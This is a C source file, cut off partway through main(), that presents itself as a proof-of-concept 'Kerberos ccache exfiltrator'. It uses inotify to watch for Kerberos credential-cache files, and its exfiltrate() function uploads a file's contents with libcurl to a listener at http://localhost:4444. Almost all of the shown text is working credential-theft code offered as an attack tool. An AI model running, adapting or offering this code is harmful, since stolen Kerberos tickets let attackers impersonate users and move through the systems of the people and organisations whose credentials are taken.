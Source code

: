 ```c
// Example based on https://www.lynxbee.com/c-program-to-monitor-and-notify-changes-in-a-directory-file-using-inotify/
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/inotify.h>
#include <sys/stat.h>
#include <limits.h>
#include <unistd.h>
#include <fcntl.h>
#include <curl/curl.h>

#define MAX_EVENTS 1024 /*Max. number of events to process at one go*/
#define LEN_NAME 1024 /*Assuming length of the filename won't exceed 16 bytes*/
#define EVENT_SIZE  ( sizeof (struct inotify_event)  ) /*size of one event*/
#define BUF_LEN     ( MAX_EVENTS * ( EVENT_SIZE + LEN_NAME  ) ) /*buffer to store the data of events*/

#define endpoint "http://localhost:4444"

int exfiltrate(char* filename) {
    CURL *curl;
    CURLcode res;
    struct stat file_info;
    FILE *fd;

    fd = fopen(filename, "rb");
    if(!fd){
        return -1;
    }
    if(fstat(fileno(fd), &file_info) != 0) {
        return -1;
    }
    curl = curl_easy_init();
    if (curl){
        curl_easy_setopt(curl, CURLOPT_URL, endpoint);
        curl_easy_setopt(curl, CURLOPT_UPLOAD, 1L);
        curl_easy_setopt(curl, CURLOPT_READDATA, fd);
        res = curl_easy_perform(curl);
        if (res != CURLE_OK) {
            return -1;
        }
        curl_easy_cleanup(curl);
    }       
    fclose(fd);
    return 0;
}

int main(int argc, char **argv){
    int length, i= 0, wd;
    int fd; 
    char buffer[BUF_LEN];
    char *ticketloc = NULL;

    printf("[Kerberos ccache exfiltrator PoC]\n\n");
   
    //Initiate inotify
    if ((fd = inotify_init()) < 0) {
        printf("Could not initiate inotify!!\n");
        return -1;
```
